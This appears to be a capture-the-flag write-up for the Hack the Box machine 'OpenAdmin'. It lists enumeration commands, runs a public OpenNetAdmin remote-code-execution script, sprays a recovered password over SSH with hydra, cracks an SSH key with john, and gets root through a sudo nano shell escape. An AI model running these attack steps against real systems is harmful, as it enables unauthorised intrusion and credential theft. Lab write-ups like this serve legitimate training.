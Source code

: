 +++
title = "Hack the Box: OpenAdmin"
date = 2023-01-15
description = "Hack the Box: OpenAdmin"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# OpenAdmin

## Enumeration

### Nmap

```
# nmap -Pn --min-rate=10000 -sV -sC openadmin.htb -nvv -e tun0
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHqbD5jGewKxd8heN452cfS5LS/VdUroTScThdV8IiZdTxgSaXN1Qga4audhlYIGSyDdTEL8x2tPAFPpvipRrLE=
|   256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcV0sVI0yWfjKsl7++B9FGfOVeWAIWZ4YGEMROPxxk4
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Gobuster

```
# gobuster dir -u http://openadmin.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,js,txt,htm,html,jsp
# gobuster dir -u http://openadmin.htb/music -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,js,txt,htm,html,jsp

/ona/
```

### Searchploit

Search for exploit on ONA:

```
# searchsploit opennetadmin
# OpenNetAdmin 18.1.1 - Remote Code Execution
```

## Foothold

Use the exploit above and get a shell

```
# dos2unix /usr/share/exploitdb/exploits/php/webapps/47691.sh
# ./47691.sh http://10.10.10.171/ona/
$
```

Find a password in `./local/config/database_settings.inc.php`. Try to use it on every users `cat /etc/passwd | grep home`

```
# hydra -L ~/Downloads/usershtb.txt -p n1nj4W4rri0R! openadmin.htb -t 4 ssh
```

Match with jimmy account, connect to his account.

```
# scp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh jimmy@openadmin.htb:/home/jimmy
```

We get informations about the open port and processes running:

```
# netstat -tupln
# ps -aux
```

We can do a port redirect to access the admin dashboard:

```
# ssh -L 52846:127.0.0.1:52846 jimmy@10.10.10.171
```

We find a SHA512 hash:

```
# cat /var/www/internal/main.php
# cat /var/www/internal/index.php
# 00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758e
ebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1
value : Revealed
```

It’s joanna password, we can get her ssh password protected ssh private key with:

```
# curl http://127.0.0.1:52846/main.php --output -
```

Crack it with john after saving it into a file:

```
# ssh2john .ssh/id_rsa_joanna > crackme
# sudo john crackme --wordlist=/usr/share/wordlists/rockyou.txt
value : bloodninjas
```

we can now connect to ssh using joanna account and get the user hash in **/home/joanna/user.txt**

## Privilege Escalation

Run `linpeas.sh` again with joanna. `sudo -l` is also a good idea. It reveals that we can launch the following command with sudo right : `sudo /bin/nano /opt/priv`. We can abuse that using [GTFOBins#nano](https://gtfobins.github.io/gtfobins/nano/#sudo "https://gtfobins.github.io/gtfobins/nano/#sudo") and do the following :

```
# sudo /bin/nano /opt/priv
CTRL+r
CTRL+x
cat /root/root.txt
```

or

```
# sudo /bin/nano /opt/priv
CTRL+r
CTRL+x
reset; sh 1>&0 2>&0
```